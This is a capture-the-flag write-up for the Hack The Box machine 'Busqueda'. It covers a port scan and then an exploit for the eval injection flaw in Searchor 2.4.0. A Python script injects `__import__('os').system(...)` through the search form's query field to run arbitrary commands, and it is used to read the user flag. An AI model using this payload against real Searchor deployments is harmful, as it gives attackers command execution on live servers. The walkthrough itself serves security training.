




# Busqueda

```bash
nmap -p- -T4 searcher.htb
```

There are 2 ports : `80` and `22`.

* 22 (OpenSSH 8.9p1 Ubuntu 3ubuntu0.1)
* 80 (Apache httpd 2.4.52)

<figure><figcaption></figcaption></figure>

The Searchor Version is `2.4.0`. There is a vulnerability on this version : [github.com](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b#diff-40a1b591e95ee135f3f26e8ffa117a4816c202b6ce76852be85018fed09c4436)&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

I can craft a script to get a web shell.

```python
import requests, sys

url = "http://searcher.htb/search"
engine = "Accuweather"
query = sys.argv[1]

headers = {
	'Host': 'searcher.htb',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Content-Length': '30',
	'Origin': 'http://searcher.htb',
	'Connection': 'close',
	'Referer': 'http://searcher.htb/',
	'Upgrade-Insecure-Requests': '1',
}

data = {
    'engine': engine,
    'query': f"') and print(__import__('os').system('{query}'))#"
}

response = requests.post(url=url, headers=headers, data=data)
print(response.text)
```

Then I can execute it.

```bash
python3 script.py "cat /home/svc/user.txt"
```
